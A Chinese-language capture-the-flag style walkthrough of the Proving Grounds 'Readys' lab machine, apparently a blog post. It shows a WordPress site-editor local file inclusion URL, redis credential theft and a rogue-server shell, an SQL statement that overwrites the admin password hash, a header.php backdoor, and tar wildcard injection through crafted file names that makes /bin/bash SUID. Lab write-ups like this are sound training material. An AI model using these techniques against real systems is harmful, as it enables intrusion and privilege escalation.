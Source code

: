 ```yaml
---
title: Proving Grounds Practice-Readys
date: 2025-7-03 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250703143047013](./Readys/image-20250703143047013.png)

## 6379端口-redis

说明需要凭证才可以访问

![image-20250703144041164](./Readys/image-20250703144041164.png)

## 80端口-wordpress

80端口的服务是wordpress，使用wpscan扫描

```shell
#wpscan --url http://192.168.191.166/   
[i] It seems like you have not updated the database for some time.
[+] URL: http://192.168.191.166/ [192.168.191.166]
[+] Started: Thu Jul  3 14:36:33 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.191.166/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.191.166/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.191.166/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.191.166/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.7.2 identified (Insecure, released on 2021-05-12).
 | Found By: Rss Generator (Passive Detection)                                                                                                                                                    
 |  - http://192.168.191.166/index.php/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>                                                                                               
 |  - http://192.168.191.166/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>                                                               
[+] WordPress theme in use: twentytwentyone                                                                                                                                                       
 | Location: http://192.168.191.166/wp-content/themes/twentytwentyone/                                                                                                                            
 | Last Updated: 2025-04-15T00:00:00.000Z                                                                                                                                                         
 | Readme: http://192.168.191.166/wp-content/themes/twentytwentyone/readme.txt                                                                                                                    
 | [!] The version is out of date, the latest version is 2.5                                                                                                                                      
 | Style URL: http://192.168.191.166/wp-content/themes/twentytwentyone/style.css?ver=1.3                                                                                                          
 | Style Name: Twenty Twenty-One                                                                                                                                                                  
 | Style URI: https://wordpress.org/themes/twentytwentyone/                                                                                                                                       
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...                                                                           
 | Author: the WordPress team                                                                                                                                                                     
 | Author URI: https://wordpress.org/                                                                               
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.191.166/wp-content/themes/twentytwentyone/style.css?ver=1.3, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.191.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.191.166/wp-content/plugins/site-editor/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <===================================================================================================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jul  3 14:36:46 2025
[+] Requests Done: 172
[+] Cached Requests: 5
[+] Data Sent: 43.551 KB
[+] Data Received: 398.557 KB
[+] Memory used: 266.961 MB
[+] Elapsed time: 00:00:12
                                                   
```

其中site-editor插件版本为1.1.1，该版本存在本地文件包含漏洞

```
http://192.168.191.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

![image-20250703150900085](./Readys/image-20250703150900085.png)

前面redis服务登录时需要认证密码，认证密码是在`redis.conf`中的

网上查找`redis.conf`文件的位置，经过尝试最后是在`/etc/redis/redis.conf`，其中的`requirepass` 的值就是密码

![image-20250703151150762](./Readys/image-20250703151150762.png)

使用该认证密码去登录redis，访问info信息可以成功回显

![image-20250703151252666](./Readys/image-20250703151252666.png)

redis_version版本为5.0.14,可以用这个方法来获取shell，脚本地址：

https://github.com/n0b0dyCN/redis-rogue-server?tab=readme-ov-file

![image-20250703163649266](./Readys/image-20250703163649266.png)

这里需要注意的是，运行这个脚本可能会反弹shell失败，什么都不回显，我也是重置了靶机之后才成功的

![image-20250703163743233](./Readys/image-20250703163743233.png)

# getshell

上面得到的用户是redis，用户权限很低，查看开放的端口本地，本地开放有3306，去配置文件找数据库连接账号密码

![image-20250703171739841](./Readys/image-20250703171739841.png)

![image-20250703171805408](./Readys/image-20250703171805408.png)

```
karl:Wordpress1234
```

数据库中有admin的密码，识别密码的加密类型是phpass，并且在hashcat中也可以找到，但是我们没必要破解

![image-20250703173730355](./Readys/image-20250703173730355.png)

![image-20250703173754033](./Readys/image-20250703173754033.png)

![image-20250703173810706](./Readys/image-20250703173810706.png)

利用该网站可以直接更新数据库中的数据，直接从数据库中修改密码

https://www.useotools.com/wordpress-password-hash-generator/output

![image-20250703173950453](./Readys/image-20250703173950453.png)

```
UPDATE `wp_users` SET `user_pass` = '$P$B3Uxv.gJiOlC3CZay5Fomw0pYxYcM40' WHERE user_login = "admin";
```

然后就可以登录到wordpress后台，后台登录目录/wp-admin可以通过扫目录扫到

![image-20250703174210617](./Readys/image-20250703174210617.png)

wordpress后台getshell的方式有很多，我们通过修改header.php,每个页面都会先加载hearder.php，所以我们在每个页面都可以命令执行

![image-20250705101425823](./Readys/image-20250705101425823.png)

![image-20250705101410416](./Readys/image-20250705101410416.png)

可以成功命令执行之后直接写入后门，访问任何界面都可以反弹shell

![image-20250705101654427](./Readys/image-20250705101654427.png)

![image-20250705101702159](./Readys/image-20250705101702159.png)

# 提权

存在一个三分钟定时任务，定时任务将/var/www/html下的文件运行tar命令进行打包

![image-20250705105335770](./Readys/image-20250705105335770.png)

可以使用tar命令进行提权

```
echo "chmod +s /bin/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * //运行执行的tar命令
```

当执行tar 命令时，通配符* 会自动被替换成参数，完整的命令就成下面

```
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
 --checkpoint=1 --checkpoint-action=exec=sh shell.sh
```

shell.sh里面又是我们的shell命令，所以自然而然会给我们一个高权限shell，提权成功

等待三分钟定时任务运行，/bin/bash就有了suid权限

![image-20250705105610165](./Readys/image-20250705105610165.png)

![image-20250705105628532](./Readys/image-20250705105628532.png)